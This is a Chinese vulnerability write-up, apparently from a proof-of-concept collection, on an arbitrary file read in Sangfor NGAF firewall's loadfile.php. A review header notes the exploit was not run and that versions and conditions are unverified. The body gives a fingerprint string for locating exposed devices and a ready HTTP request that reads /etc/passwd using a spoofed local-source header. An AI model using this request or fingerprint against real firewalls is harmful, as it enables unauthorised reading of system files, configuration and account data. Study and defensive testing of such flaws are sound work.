

# 深信服 NGAF下一代防火墙 loadfile.php 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Sangfor NGAF
- 本文讨论：svpn_html/loadfile.php file读取
- 版本、权限与配置前提：y-forwarded-for127.0.0.1；版本/鉴权未说明
- 资料类型：NGAF文件读取PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 自定义可信来源头作用未解释，不能简单纠正成XFF；无固定版本/来源公告
- 响应在截图，任意文件范围需确认
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要且已脱敏的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 可信头绕过条件、版本与文件权限待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 loadfile.php 处存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面


poc

```http
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```




---

> 来源：Threekiii/Awesome-POC
